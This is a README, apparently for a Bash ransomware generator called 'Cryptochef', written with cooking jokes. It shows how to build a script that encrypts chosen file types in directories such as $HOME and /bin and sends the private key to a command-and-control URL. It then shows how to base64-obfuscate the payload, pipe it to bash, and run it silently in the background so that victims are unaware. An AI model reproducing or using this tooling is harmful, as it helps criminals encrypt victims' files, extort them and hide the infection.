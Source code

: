 # Cryptochef - The ransomware kitchen appliance[PREVIEW] 👨‍🍳
## What is
Cryptochef is your new ransomware kitchen appliance. Prepare and spread your favourite Bash GNU/Linux ransomware culinary recipes. Remember! Your fantasy is the best ingredient to cook the best ransomware of the world.

## How to use
```cryptochef.sh [file extension filter] [directory filter] [private key size] [command and control endpoint] > [recipient name].sh```

Example:
```cryptochef.sh "(.*?)\.(txt|conf)" "\$HOME /bin" 4096 http://chef.com:1337/ > omelette.sh```
Cook an omelette that:
- Encrypts all file with *txt* and *conf* extension
- Inside the *$HOME* and */bin* directories,
- Uses 4096 bit private key
- Sends the private key to http://chef.com:1337/ endpoint

**Every great culinary recipes are a secret, like Coca Cola, then encode your recipe:**
```
# Encode the recipe
encoded_recipe=$(cat omelette.sh | base64 | tr -d '\n' )
# Taste the recipe
base64 -d <<< ${encoded_recipe} | bash
```

**Do you want to poison someone without him knowing? Fork and hide the venom inside your recipe: 🤢🤢**
```
base64 -d <<< ${encoded_recipe} &>/dev/null &disown; | bash
```
